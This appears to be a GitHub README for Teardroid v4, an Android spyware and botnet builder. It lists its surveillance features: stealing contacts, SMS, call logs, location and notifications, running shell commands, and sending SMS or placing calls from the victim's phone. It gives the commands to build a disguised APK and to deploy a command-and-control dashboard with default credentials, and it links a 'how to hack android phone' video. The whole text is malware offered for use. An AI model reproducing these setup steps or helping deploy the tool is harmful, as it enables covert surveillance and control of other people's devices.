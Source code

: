 # Teardroid v4
![Screenshot](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/IMG-20220122-WA0000_RdKN5Rv3U.jpg)

It's easy to use android botnet work without port forwarding, vps and android studio


### Features
- Retrive Contact
- Retrive SMS
- Retrive Services
- Retrive Device Location (Only work when the app is open on newer devices)
- Retrive Call Logs
- Run Shell Command
- Change Wallpaper
- Send SMS
- Make Call
- Get Installed Apps
- Download File
- Read Notification
- Auto-Start (May not work on a couple of devices)

### Requirement

- Python3
- Java
- Linux or Windows os

### Java version i used
```bash
$ java -version
openjdk version "11.0.13" 2021-10-19
OpenJDK Runtime Environment (build 11.0.13+8)
OpenJDK 64-Bit Server VM (build 11.0.13+8, mixed mode)
```

### How to setup
- Set up an account at [deta.sh](https://web.deta.sh/) its free.
- Click Deploy to Deta Button to configure your control panel.
- Clone Teardroid-phprat repo with the following command.
```bash 
$ git clone https://github.com/ScRiPt1337/Teardroid-phprat
```
- cd in the Teardroid-phprat directory, then type the command below to install all dependencies
```bash
$ pip install -r requirements.txt
```
- Run the following command to see the options that we can use with the builder.
```bash
$ python Teardroid.py                                                                                                         
  ______                    __           _     __         __ __
 /_  __/__  ____ __________/ /________  (_)___/ /  _   __/ // /
  / / / _ \/ __ `/ ___/ __  / ___/ __ \/ / __  /  | | / / // /_
 / / /  __/ /_/ / /  / /_/ / /  / /_/ / / /_/ /   | |/ /__  __/
/_/  \___/\__,_/_/   \__,_/_/   \____/_/\__,_/    |___/  /_/   
                                                               

usage: Teardroid.py [-h] [-v] [-b]

Teardroid v4.0 - A tool to build teardroid spyware for Android devices.

options:
  -h, --help     show this help message and exit
  -v, --version  Version of Teardroid
  -b , --build   Build Teardroid with custom name [ex: Teardroid.py -b teardroid]
```
- To create an apk execute the following command.
```bash
$ python Teardroid.py -b your_app_name
```
- It will prompt you with your Control Panel url enter your deta micro URL (without / at the end of the url).
- You will also be prompted for the title and text of the notification. Enter what you want to display on the notification.
- DONE

[![Deploy](https://button.deta.dev/1/svg)](https://go.deta.dev/deploy?repo=https://github.com/ScRiPt1337/Teardroidv4_api)

### Manually deploy the Teardroid control panel
- Set up an account at [deta.sh](https://web.deta.sh/)
- Install [Deta Cli](https://docs.deta.sh/docs/cli/install)
- Logging in to Deta via the CLI
- Create a new Python Micro
- Clone [Teardroidv4_api](https://github.com/ScRiPt1337/Teardroidv4_api) repo
- Move all Teardroidv4_api Files to your deta micro folder.
- Deploy the Control panel using the following command.
```bash
$ deta deploy
```
### Dashboard
- visit : https://{your server url}/v4/overview
- defualt username/password is : admin/admin

### Screenshot

- ![Builder](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/Builder_3oDdS0Tr7.png)

- ![Overview](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/2022-01-27_22-29_gYkI6tIvGmG.png)

- ![TaskManager](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/2022-01-27_22-49_RakvqeLWG.jpeg)

### Demo Video
- Youtube : [how to hack android phone using Teardroid v4](https://www.youtube.com/watch?v=qDxc3Sswkro)

### Support me
[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/script1337x)

### Contact info 
- Email : script@hacksec.in
- Discord : https://discord.gg/5CjQacc
- Telegram : https://t.me/hacksecofficial
- Visit our website : https://www.hacksec.in
